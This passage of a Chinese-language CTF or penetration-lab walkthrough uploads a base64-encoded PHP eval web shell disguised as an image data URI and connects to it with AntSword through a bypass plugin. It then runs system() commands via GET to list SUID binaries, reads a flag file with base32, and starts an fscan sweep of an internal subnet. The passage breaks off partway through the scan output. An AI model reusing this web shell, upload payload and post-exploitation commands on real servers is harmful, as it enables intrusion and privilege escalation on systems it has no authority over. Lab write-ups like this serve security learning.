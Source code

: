 然后准备一下payload

```php
imgbase64=data:image/php;base64,PD9waHAgQGV2YWwoJF9QT1NUWydhdHRhY2snXSk7Pz4=
```

设置一下bp的socks代理

​![image](https://raw.githubusercontent.com/Wh1teJ0ker/PicGo/main/Pic/image-20250309033320-urofnf7.png)​

再正常抓包即可

​![image](https://raw.githubusercontent.com/Wh1teJ0ker/PicGo/main/Pic/image-20250309033156-mm2cuob.png)​

上传成功开始连接

​![image](https://raw.githubusercontent.com/Wh1teJ0ker/PicGo/main/Pic/image-20250309033633-2ovkdb2.png)​

很明显禁用了很多

另外这里使用插件绕过

​![image](https://raw.githubusercontent.com/Wh1teJ0ker/PicGo/main/Pic/image-20250309035741-7luwdfl.png)​

但是发现post的无法执行，只能使用Get的

```php
/upload/.antproxy.php?pass=system(%22find%20/%20-perm%20-u=s%20-type%20f%202%3E/dev/null%22);
```

​![image](https://raw.githubusercontent.com/Wh1teJ0ker/PicGo/main/Pic/image-20250309040030-c3q3lys.png)​

这里发现有suid提权

使用base32

```php
/.antproxy.php?pass=system("base32 /flag02.txt");
```

分别开始在查看网卡，进行扫描

​![image](https://raw.githubusercontent.com/Wh1teJ0ker/PicGo/main/Pic/image-20250309114548-jz3cn2m.png)​

在ERP的这台机子上发现还有一个网卡

```php
./fscan -h 172.22.10.0/24 > result
```

```php
┌──────────────────────────────────────────────┐
│    ___                              _        │
│   / _ \     ___  ___ _ __ __ _  ___| | __    │
│  / /_\/____/ __|/ __| '__/ _` |/ __| |/ /    │
│ / /_\\_____\__ \ (__| | | (_| | (__|   <     │
│ \____/     |___/\___|_|  \__,_|\___|_|\_\    │
└──────────────────────────────────────────────┘
      Fscan Version: 2.0.0

[2025-03-09 11:45:20] [INFO] 暴力破解线程数: 1
[2025-03-09 11:45:20] [INFO] 开始信息扫描
[2025-03-09 11:45:20] [INFO] CIDR范围: 172.22.10.0-172.22.10.255
[2025-03-09 11:45:20] [INFO] 生成IP范围: 172.22.10.0.%!d(string=172.22.10.255) - %!s(MISSING).%!d(MISSING)
[2025-03-09 11:45:20] [INFO] 解析CIDR 172.22.10.0/24 -> IP范围 172.22.10.0-172.22.10.255
[2025-03-09 11:45:20] [INFO] 最终有效主机数量: 256
[2025-03-09 11:45:20] [INFO] 开始主机扫描
[2025-03-09 11:45:20] [INFO] 正在尝试无监听ICMP探测...
```